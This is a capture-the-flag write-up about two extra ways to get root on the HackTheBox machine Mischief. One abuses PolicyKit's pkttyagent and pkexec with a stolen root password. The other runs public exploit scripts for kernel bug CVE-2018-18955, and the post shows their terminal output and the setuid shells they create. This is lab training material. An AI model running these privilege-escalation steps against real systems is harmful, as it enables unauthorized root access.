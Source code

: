 # HTB: Mischief Additional Roots

[htb-mischief](/tags#htb-mischief ) [hackthebox](/tags#hackthebox )
[ctf](/tags#ctf ) [cve-2018-18955](/tags#cve-2018-18955 )
[policykit](/tags#policykit ) [polkit](/tags#polkit ) [pkexec](/tags#pkexec )
[pkttyagent](/tags#pkttyagent ) [metasploit](/tags#metasploit ) [msf-
local](/tags#msf-local )  
  
Jan 8, 2019

HTB: Mischief Additional Roots

Since publishing my [write-up on Mischief](/2019/01/05/htb-mischief.html) from
HackTheBox, I’ve learned of two additional ways to privesc to root once I have
access as loki. The first is another method to get around the fact the `su`
was blocked on the host using PolicyKit with the root password. The second was
to take advantage of a kernel bug that was publicly released in November, well
after Mischief went live. I’ll quickly show both those methods.

## PolicyKit

### Background

PolicyKit is software that’s designed to be an alternative to `sudo`, where
instead of defining what can be run in a file on each host, it provides an api
that can be used by privileged programs to offer services to unprivleged
programs. I wasn’t familiar with framework before this example, but it seems
that the components come standard on many Linux distros (it is present on my
daily Ubuntu 18.04 desktop).

Props to [fjv](https://www.hackthebox.eu/home/users/profile/66373) for
pointing this one out on the HTB forums.

### How It Works

In this case, I’ll need two shells on Mischief, both as loki, and the root
password from loki’s history file. Getting two shells is easy to do, as I can
just ssh in twice, or, better yet, ssh in and run `tmux`.

First, I’ll need to get the pid of the bash process in the first terminal:

    
    
    loki@Mischief:/dev/shm$ echo $$
    25923
    

Next, I’ll start `pkttyagent` in the second terminal with the `--process`
flag. This flag lets me specify the pid of the process that will be subject to
this agent.

    
    
    loki@Mischief:/dev/shm$ pkttyagent --process 25923
    

On doing this, this terminal will just hang and wait to be contacted. Back in
the first terminal, I’ll now run `pkexec` to start a process. I’ll pass in
`--user root` to say I want to run as root, and `bash -i` as the command I
want to run:

    
    
    loki@Mischief:/dev/shm$ pkexec --user root bash -i
    

On doing that, the second window asks for root’s password:

    
    
    ==== AUTHENTICATING FOR org.freedesktop.policykit.exec ===
    Authentication is needed to run `/bin/bash' as the super user
    Authenticating as: root
    Password: 
    

When I enter the correct password, it replies:

    
    
    ==== AUTHENTICATION COMPLETE ===
    

Back in the first window, I now have a root shell:

    
    
    root@Mischief:~# id         
    uid=0(root) gid=0(root) groups=0(root)
    

Here’s the entier thing in action:

![](https://0xdfimages.gitlab.io/img/mischief-pkexec-root.gif)

## CVE-2018-18955

[saket sourav](https://disqus.com/by/disqus_lGROGMGeNJ/) left a comment on the
[original Mischief post](/2019/01/05/htb-mischief.html) suggesting there was a
kernel vulnerability. With a little researhc, I figured out that he was likely
referring to CVE-2018-18955.

To pull this off, I’ll grab the code from here:
https://github.com/bcoles/kernel-exploits/tree/master/CVE-2018-18955. There’s
also a Metasploit version available:

    
    
    msf > search 18955
    
    Matching Modules
    ================
    
       Name                                                       Disclosure Date  Rank   Check  Description
       ----                                                       ---------------  ----   -----  -----------
       exploit/linux/local/nested_namespace_idmap_limit_priv_esc  2018-11-15       great  Yes    Linux Nested User Namespace idmap Limit Local Privilege Escalation
    

But I’ll go without Metasploit. First, I’ll copy the files to target:

    
    
    root@kali:/opt/kernel-exploits/CVE-2018-18955# scp * loki@10.10.10.92:/dev/shm/
    loki@10.10.10.92's password: 
    exploit.cron.sh                                                                                                                                                                           100% 2303   113.8KB/s   00:00    
    exploit.dbus.sh                                                                                                                                                                           100% 3829   192.1KB/s   00:00    
    exploit.ldpreload.sh                                                                                                                                                                      100% 2017    95.0KB/s   00:00    
    exploit.polkit.sh                                                                                                                                                                         100% 2827   134.8KB/s   00:00    
    libsubuid.c                                                                                                                                                                               100%  351    17.2KB/s   00:00    
    rootshell.c                                                                                                                                                                               100%  143     7.0KB/s   00:00    
    subshell.c                                                                                                                                                                                100% 1604    76.9KB/s   00:00    
    subuid_shell.c   
    

Now I’ll just run one of the sh scripts and I get root, in this case the dbus
variant:

    
    
    root@Mischief:/dev/shm# ./exploit.dbus.sh 
    [*] Compiling...
    [*] Creating /usr/share/dbus-1/system-services/org.subuid.Service.service...
    [.] starting
    [.] setting up namespace
    [~] done, namespace sandbox set up
    [.] mapping subordinate ids
    [.] subuid: 100000
    [.] subgid: 100000
    [~] done, mapped subordinate ids
    [.] executing subshell
    [*] Creating /etc/dbus-1/system.d/org.subuid.Service.conf...
    [.] starting
    [.] setting up namespace
    [~] done, namespace sandbox set up
    [.] mapping subordinate ids
    [.] subuid: 100000
    [.] subgid: 100000
    [~] done, mapped subordinate ids
    [.] executing subshell
    [*] Launching dbus service...
    Error org.freedesktop.DBus.Error.NoReply: Did not receive a reply. Possible causes include: the remote application did not send a reply, the message bus security policy blocked the reply, the reply timeout expired, or the network connection was broken.
    [+] Success:
    -rwsrwxr-x 1 root root 8384 Jan  8 20:37 /tmp/sh
    [*] Cleaning up...
    [*] Launching root shell: /tmp/sh
    root@Mischief:/dev/shm# id
    uid=0(root) gid=0(root) groups=0(root),1004(loki)
    root@Mischief:/dev/shm# cat /root/root.txt 
    The flag is not here, get a shell to find it!
    

The different sh scripts just take advantage of different mechanisms to hit
the same vulnerability. Each one creates a setuid shell as `/tmp/sh` owned by
root. It’s a good idea to clean that file up once you have a root shell.

I was able to get three of the four to work (the cron one makes you wait what
feels like forever). If you do try to run more than one, just note that you
need to clean up the `/tmp/sh` file before trying the next one, or the script
will fail.

`exploit.ldpreload.sh`:

    
    
    loki@Mischief:/dev/shm$ ./exploit.ldpreload.sh 
    [*] Compiling...
    [*] Adding libsubuid.so to /etc/ld.so.preload...
    [.] starting
    [.] setting up namespace
    [~] done, namespace sandbox set up
    [.] mapping subordinate ids
    [.] subuid: 165536
    [.] subgid: 165536
    [~] done, mapped subordinate ids
    [.] executing subshell
    [+] Success:
    -rwsrwxr-x 1 root root 8384 Jan  8 20:41 /tmp/sh
    [*] Cleaning up...
    [*] Launching root shell: /tmp/sh
    root@Mischief:/dev/shm#
    

`exploit.cron.sh`:

    
    
    loki@Mischief:/dev/shm$ ./exploit.cron.sh 
    [*] Compiling...
    [*] Writing payload to /tmp/payload...
    [*] Adding cron job... (wait a minute)
    [.] starting
    [.] setting up namespace
    [~] done, namespace sandbox set up
    [.] mapping subordinate ids
    [.] subuid: 165536
    [.] subgid: 165536
    [~] done, mapped subordinate ids
    [.] executing subshell
    [+] Success:
    -rwsrwxr-x 1 root root 8384 Jan  8 20:42 /tmp/sh
    [*] Cleaning up...
    [*] Launching root shell: /tmp/sh
    root@Mischief:/dev/shm# 
    

I’m not sure why the polkit script didn’t work, but I didn’t put much time
into it. It is interesting to see PolicyKit utilized for the second time
today.

[](/2019/01/08/htb-mischief-more-root.html)

